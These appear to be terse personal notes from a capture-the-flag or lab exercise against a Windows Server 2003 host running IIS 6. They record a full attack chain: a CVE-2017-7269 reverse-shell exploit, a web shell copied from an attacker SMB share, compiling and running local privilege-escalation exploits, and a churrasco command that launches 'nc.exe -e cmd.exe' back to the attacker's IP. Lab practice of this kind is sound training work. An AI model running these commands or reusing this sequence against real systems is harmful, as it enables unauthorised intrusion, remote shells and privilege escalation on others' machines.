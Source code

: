 ```bash

exploit
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell

python iis-rce.py 10.129.95.234 80 10.10.14.15 4444 

got shell.

copy \\10.10.14.15\share\webshell.asp web.asp

# local enum
systeminfo, 2003 server sp2
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790

## exploit
https://www.exploit-db.com/exploits/37755
https://vk9-sec.com/microsoft-windows-server-2003-sp2-tcp-ip-ioctl-privilege-escalation-ms14-070-cve-2014-4076/
https://vk9-sec.com/microsoft-windows-x86-afd-sys-local-privilege-escalation-ms11-046-2011-1249/

sudo apt install gcc-mingw-w64
i686-w64-mingw32-gcc-win32 37755.c -o exploit.exe -lws2_32

impacket-smbserver -smb2support share ./

copy \\10.10.14.15\share\exploit.exe exploit.exe

.\exploit.exe    //failed.

enum kernel exploit
https://github.com/bitsadmin/wesng

https://github.com/AonCyberLabs/Windows-Exploit-Suggester
./windows-exploit-suggester.py --database 2022-09-24-mssb.xls --systeminfo sysinfo.txt

.\churrasco.exe -d "c:\inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.15 4444"

tmux 多个panel  共享 history ？

wes scan kernel
https://github.com/bitsadmin/wesng

https://github.com/AonCyberLabs/Windows-Exploit-Suggester
windows-exploits-suggester.py 


ms15-051 
https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/37049-32.exe

37049-32.exe "whoami /all"



```
